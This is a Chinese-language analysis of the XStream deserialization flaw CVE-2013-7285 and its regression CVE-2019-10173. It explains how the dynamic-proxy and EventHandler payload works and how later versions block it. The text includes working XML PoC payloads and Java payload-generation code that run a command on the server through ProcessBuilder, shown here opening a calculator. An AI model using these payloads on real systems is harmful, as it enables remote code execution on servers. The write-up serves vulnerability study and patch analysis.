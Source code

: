 # 0x00 漏洞影响版本

```java
/**
 * CVE-2013-7285
 *
 * affected version: <= 1.4.6, 1.4.10(new cve record: CVE-2019-10173)
 */
```

# 0x01 漏洞环境

本地JavaSE maven工程

# 0x02 漏洞分析

PoC如下：

```xml
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>open</string>
          <string>-a</string>
          <string>calculator</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```

```java
XStream xstream = new XStream();
Contact contact = (Contact)xstream.fromXML(xml);
```

PoC里用到了`<dynamic-proxy>`，这个代表说`XStream`在对其反序列化的时候会使用到动态代理转换器-`DynamicProxyConverter`，官方文档中关于其解释如下：

![](pic/xstream-cve137285-1.png)。

- 什么是`Converter`?
>Converter是XStream的核心组成，它提供了一种用于特定类型的对象与XML之间进行转换的策略。
>XStream提供了通用类型的转换器，如基本类型、字符串、文件、集合、数组和日期类型等。详细的转换器类型请查阅官方文档。(参考[3])。

而`<dynamic-proxy>`则是动态代理技术在XStream环境下xml内容的表现形式。关于动态代理，我在之前的文章中讲到过(参考[4])，这里不再细说。

如官方文档对`DynamicProxyConverter`的描述，负责处理方法调用的`InvocationHandler`和动态代理所实现的接口都将会被反序列化。

上面的PoC中，使用了`java.beans.EventHandler`类作为具体的`InvocationHandler`。

来看一个简单的场景: 服务器想要接收一个指定接口的序列化实例。服务端代码如下：

```java
@Controller
@RequestMapping("/contacts")
public class ContactController {
    @Autowired
    private ContactRepository contactRepository;

    @RequestMapping( method = RequestMethod.POST )
    @ResponseStatus( HttpStatus.CREATED )
    public final String create( @RequestBody Contact contact ){
        log("Creating new contact: " + contact.getFirstName());
        contactRepository.save(contact);
        return "OK";
    }
 }
```

可以看出服务器希望接收到的请求内容如下：
```xml
<contact>
  <id>1</id>
  <firstName>alvaro</firstName>
  <lastName>munoz</lastName>
  <email>alvaro@pwntester.com</email>
</contact>
```

如果想攻击服务端，我们可以利用动态代理技术去拦截接口的任意方法调用，并在其中注入恶意代码：
- (1) 首先要确定动态代理要实现的接口，这个例子是：`com.company.model.Contact`;
- (2) 创建`com.company.model.Contact`的代理类。
- (3) 拦截该接口的任何方法调用。
- (4) 使用恶意的payload替换原本的方法调用。

因此，该例子的PoC实现如下：

```xml
<dynamic-proxy>
<interface>com.company.model.Contact</interface>
<handler class="java.beans.EventHandler">
    <target class="java.lang.ProcessBuilder">
      <command>
        <string>open</string>
        <string>-a</string>
        <string>calculator</string>
      </command>
    </target>
    <action>start</action>
</handler>
</dynamic-proxy>
```

其中，`java.beans.EventHandler`为动态代理的`InvocationHandler`处理类，该处理类将使用`java.lang.ProcessBuilder#start()`方法去替换原始的方法调用。
这个例子中，一旦服务器代码到达代理接口上的方法调用，就像代码中的下面这行：

```java
log("Creating new contact: " + contact.getFirstName());
```

方法调用将被拦截，并用我们的payload进行替换，结果是服务器上打开了一个计算器。

但是这跟前面一开始给出的PoC不太一样呀。是的，这里的PoC并不通用，而且仅针对这个例子有效。
因为除非是白盒审计，否则想知道要实现服务端的哪个类，是非常困难的。

这个问题的解决方案是序列化一个包含其他对象的对象，为了实例化这个对象，必须调用一个接口方法。在这里，我们可以使用`InvocationHandler`的实现类`EventHandler`注入恶意代码。下面的想法是由`Jörg Schaible (XStream developer)`在向XStream团队披露时提出的。序列化`java.util.TreeSet`的对象，该对象又包含`java.lang.Comparable`这样的对象，当`Set`在服务器端实例化时，就会调用`Comparable`的`compareTo()`方法来对`Set`集合的元素进行进行排序。现在我们需要做的就是往`TreeSet`的元素中添加一个动态代理，拦截`Comparable`接口的任何方法调用，并用我们的payload替换它。代码如下：

```java
Set<Comparable> set = new TreeSet<Comparable>();
set.add("foo");
set.add(EventHandler.create(Comparable.class, new ProcessBuilder("open","-a", "calculator"), "start"));
String payload = xstream.toXML(set);
System.out.println(payload);
```

由于这里`XStream#toXML()`会抛出异常`java.lang.ClassCastException: java.lang.UNIXProcess cannot be cast to java.lang.Integer`。所以这里我们得手动编写xml的PoC，如下，这个也就是开头给出PoC。


```xml
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>open</string>
          <string>-a</string>
          <string>calculator</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```

![](pic/xstream-cve137285-2.png)


# 0x03 漏洞修复

因为`EventHandler`是由`ReflectionConverter`这个转换器来处理的。在`1.4.7-1.4.9`版本中，增加了对`java.beans.EventHandler`的限制。

![](pic/xstream-cve137285-3.png)

然而在`1.4.10`版本中，虽然增加了`setupDefaultSecurity`方式来设置默认的白名单，但是在`ReflectionConverter`中对`java.beans.EventHandler`限制去掉了。导致这个漏洞的PoC又能在`1.4.10`版本上执行成功。还有了个新的CVE编号：`CVE-2019-10173`。

![](pic/xstream-cve137285-4.png)

在`1.4.11`版本中，官方再次修复了这个漏洞，但修复方式稍微有点不同。

当使用`1.4.11`版本时，测试PoC的结果如下，会抛出一个`com.thoughtworks.xstream.converters.ConversionException`的异常，并提示`Security alert. Unmarshalling rejected.`，此时函数堆栈如下图：

![](pic/xstream-cve137285-5.png)

是`XStream.java`的第`2560`行抛出的异常：

![](pic/xstream-cve137285-6.png)

![](pic/xstream-cve137285-7.png)

可以看到，在`1.4.11`版本中，添加了一个类名为`InternalBlackList`的Converter，它的优先级为`LOW`，而`ReflectionConverter`的优先级为`VERY_LOW`，所以在进入`ReflectionConverter`之前，`java.beans.EventHandler`就会被`InternalBlackList`给拦截掉。






# Reference
[1] http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/
[2] https://x-stream.github.io/security.html
[3] https://x-stream.github.io/converters.html
[4] https://medium.com/@m01e/ysoserial-groovy1%E6%A8%A1%E5%9D%97%E5%88%86%E6%9E%90-2d53f197efc4
